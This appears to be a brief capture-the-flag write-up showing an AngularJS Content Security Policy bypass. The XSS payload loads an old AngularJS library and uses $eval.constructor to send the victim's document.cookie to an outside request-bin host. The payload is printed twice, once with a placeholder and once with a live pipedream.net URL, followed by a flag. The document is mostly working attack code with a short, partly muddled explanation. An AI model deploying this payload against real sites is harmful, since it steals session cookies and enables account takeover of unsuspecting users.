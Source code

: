 # CSP Exploit

'''html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
<div ng-app ng-csp>
   {{$eval.constructor("document.location='(insert here your request bin url)/?'+document.cookie")()}}
</div>
'''

1) Downloads angular.js
2) ng-app is a angular directives that auto-bootstraps an AngularJS application, initializing automatically the framework. 
3) ng-csp stands for Content Security Policy. It's used to prevent Cross Site Scripting (XSS) attacks by not allowing unsafe actions in your code. When you use the ng-csp directive, you're telling AngularJS to run in CSP mode.

[`WebHook`](https://pipedream.com/requestbin)

## Flag
flag=flag{th1s1s_how_w3_byp4ss3d_csp}

<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
<div ng-app ng-csp>
   {{$eval.constructor("document.location='https://enpdzznx8mvml.x.pipedream.net?'+document.cookie")()}}
</div>